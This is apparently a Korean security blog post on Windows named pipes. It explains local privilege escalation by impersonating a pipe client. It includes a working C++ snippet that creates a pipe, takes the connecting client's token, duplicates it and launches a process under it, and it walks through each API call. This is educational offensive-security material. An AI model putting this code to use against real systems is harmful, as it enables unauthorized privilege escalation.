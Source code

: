 그럼 이제 Client Impersonation으로 LPE 방법을 자세히 살펴보겠습니다!

타겟 서비스나 프로그램이 `CreateFile()`를 할 때, 일반 파일 경로 대신에 공격자 Named Pipe에 연결하면 됩니다! 이때 `CreateFile()` 함수 6번째 인자 값이 위와 같이 SECURITY_SQOS_PRESENT | SECURITY_IMPERSONATION or SECURITY_DELEGATION 값을 가져야 합니다.

원격 Pipe의 경우 SECURITY_SQOS_PRESENT 값만 있을 경우에도 SECURITY_IMPERSONATION이 적용된다고 합니다.

```cpp
// Create a server named pipe
serverPipe = CreateNamedPipe(
    pipeName,           // name of our pipe, must be in the form of \\.\pipe\<NAME>
    PIPE_ACCESS_DUPLEX, // The rest of the parameters don't really matter
    PIPE_TYPE_MESSAGE,	// as all you want is impersonate the client...
    1,		// 
    2048,	// 
    2048,	// 
    0,		// 
    NULL	// This should ne NULL so every client can connect
);
// wait for pipe connections
BOOL bPipeConnected = ConnectNamedPipe(serverPipe, NULL);
// Impersonate client
BOOL bImpersonated = ImpersonateNamedPipeClient(serverPipe);
// if successful open Thread token - your current thread token is now the client's token
BOOL bSuccess = OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken);
// now you got the client token saved in hToken and you can safeyl revert back to self
bSuccess = RevertToSelf();
// Now duplicate the client's token to get a Primary token
bSuccess = DuplicateTokenEx(hToken,
    TOKEN_ALL_ACCESS,
    NULL,
    SecurityImpersonation,
    TokenPrimary,
    &hDuppedToken
);
// If that succeeds you got a Primary token as hDuppedToken and you can create a proccess with that token
CreateProcessWithTokenW(hDuppedToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

타겟 클라이언트와 공격자 Named Pipe 서버가 연결되면 서버는 위 코드를 통해서 클라이언트 권한으로 LPE가 가능합니다. 주요한 함수들만 살펴보도록 하겠습니다.

- `ImpersonateNamedPipeClient()` : 클라이언트 Impersonation Token을 통해 서버 스레드에 적용합니다. 이때, 사용한 Impersonation Token은 클라이언트의 Primary Token을 스레드에 적용하기 위한 토큰입니다.
- `RevertToSelf()` : Impersonation을 종료합니다. `CreateProcessWithTokenW()` 함수 호출전에  이뤄져야 에러가 발생 안 한다고 합니다.
- `DuplicateTokenEx()` : 앞서 얻은 클라이언트 Impersonation Token을 프로세스에 사용하기 위한 Primary Token으로 복제합니다.
- `CreateProcessWithTokenW()` : Primary Token 토큰을 통해 클라이언트 권한으로 프로세스를 생성합니다. → LPE 발생!

## 마무리

이번 글을 통해 Windows IPC와 Named Pipe에 대해 깊게 살펴보았습니다! 글을 작성하면서 Windows Attack Vector는 진짜 많구나를 다시 한번 알 수 있었습니다..
